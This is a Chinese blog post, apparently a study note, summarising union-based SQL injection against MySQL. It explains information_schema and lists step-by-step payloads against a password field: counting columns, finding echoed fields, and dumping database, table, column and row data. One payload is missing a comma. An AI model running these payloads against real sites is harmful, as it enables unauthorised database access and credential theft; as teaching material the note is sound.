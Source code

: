 ```yaml
---
title: 联合注入 | 初级 | 小结
abbrlink: cef4ee6d
tags:
  - 注入
categories:
  - 知识总结
date: 2020-10-01 09:44:46
---
```


利用UNION 操作符组合多个语句查询结果收集想要获取的信息

<!-- more -->

**注意：本篇内容以 MySQL 为例，并不完全适用于其他数据库。若存在关键字过滤，需进行对应绕过。**

## information_schema 库

 MySQL（5.0以上版本） 自带的信息数据库，提供了访问数据库元数据的方式
 
记录所有表名信息的表：information_schema.tables

记录所有列名信息的表：information_schema.columns

数据库名：table_schema

表名：table_name

列名：column_name

## 枚举字段数

利用 order by 关键词对字段名在表内的默认顺序进行排序确认字段是否存在，如1，2，……，n。当枚举至 n 时出现报错，则共有 n-1 个字段。

```
password=-1' order by 1,2,3,n #
```

## 确认回显字段

利用 union select 确认回显字段

```
password=-1' union select 1,2,3,n #
```

## 收集数据库基础信息

操作系统     -->    @@version_compile_os

数据库信息  -->    version()

数据库用户  -->    user()

数据库名     -->    database()

通过与可回显字段替换实现相应查询

```
password=-1' union select version(),database(),3,n #
```

## 收集表名

```
password=-1' union select group_concat(table_name),2,3,n from information_schema.tables where table_schema=database() #
```

## 收集字段名

```
password=-1' union select group_concat(column_name),2,3,n from information_schema.columns where table_schema=database() and table_name='table name' #
```

## 收集对应数据

```
password=-1' union select group_concat(column name 1,column name 2,column name 3),2,3,n from table name #
```

## 利用 information_schema 

### 收集所有数据库名

```
password=-1' union select group_concat(schema_name),2,3,n from information_schema.schemata #
```

### 收集指定数据库的表名

```
password=-1' union select group_concat(table_name)2,3,n from information_schema.tables where table_schema='schema name' #
```

### 收集指定数据库指定表的字段名

```
password=-1' union select group_concat(column_name),2,3,n from information_schema.columns where table_name='table name' and table_schema='schema name' #
```

### 收集指定数据库指定表的指定字段信息

```
password=-1' union select group_concat(column name 1,column name 2,column name 3),2,3,n from schema name.table name #
```